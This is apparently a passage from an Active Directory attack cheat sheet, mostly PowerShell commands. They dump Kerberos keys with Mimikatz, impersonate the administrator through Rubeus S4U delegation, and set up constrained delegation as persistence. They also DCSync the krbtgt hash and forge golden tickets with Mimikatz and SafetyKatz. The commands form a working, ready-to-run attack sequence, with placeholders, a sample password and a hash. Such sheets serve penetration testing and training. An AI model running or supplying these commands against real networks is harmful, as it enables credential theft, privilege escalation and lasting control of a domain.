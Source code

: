 ```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Use the AES key of foothold-machine1$ with Rubeus and access the target machine as ANY user we want:
.\Rubeus.exe s4u /user:foothold-machine1$ /aes256:<foothold-machine-aes256-key> /msdsspn:http/<target-machine> /impersonateuser:administrator /ptt
winrs -r:<target-machine> cmd.exe
```

## Persistence

**msDS-AllowedToDelegateTo:**  

```powershell
### Setup ###
# Using PowerView:
Set-DomainObject -Identity <newuser> -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity <new-user> -Set @{"msds-allowedtodelegateto"="ldap/<DC-FQDN>"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}

Get-DomainUser –TrustedToAuth

# Using AD module:
Set-ADUser -Identity <newuser> -ServicePrincipalNames @{Add='dev/svc'}
Set-ADUser -Identity <newuser> -Add @{'msDS-AllowedToDelegateTo'= @('ldap/<DC-hostname>','<DC-FQDN>')} -Verbose
Set-ADAccountControl -Identity <newuser> -TrustedToAuthForDelegation $true

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

### Abuse ###
# Abuse using Kekeo:
kekeo# tgt::ask /user:<newuser> /domain:us.techcorp.local /password:Password@123!
kekeo# tgs::s4u /tgt:<kirbi-file-from-previous> /user:Administrator@<domain> /service:ldap/<DC-FQDN>

Invoke-Mimikatz -Command '"kerberos::ptt <kirbi-file-from-previous>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'

# Abuse using Rubeus:
Rubeus.exe hash /password:Password@123! /user:<newuser> /domain:<domain>
Rubeus.exe s4u /user:<newuser> /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/<CD-FQDN> /domain:<domain> /ptt
SafetyKatz.exe "lsadump::dcsync /user:<domain>\krbtgt" "exit"
```

**Golden Ticket:**  

```powershell
# Note: /sid: is the domain's SID
# Note: can use NTLM hash or AES key
# Execute mimikatz on DC to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# Or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# On a machine which can reach the DC over network:
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<ntlm> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Using SafetyKatz
SafetyKatz.exe "lsadump::lsa /patch" "exit"
# or
SafetyKatz.exe "lsadump::dcsync /user:<domain>\krbtgt" "exit"
# On a machine which can reach the DC over network (Need elevation):
```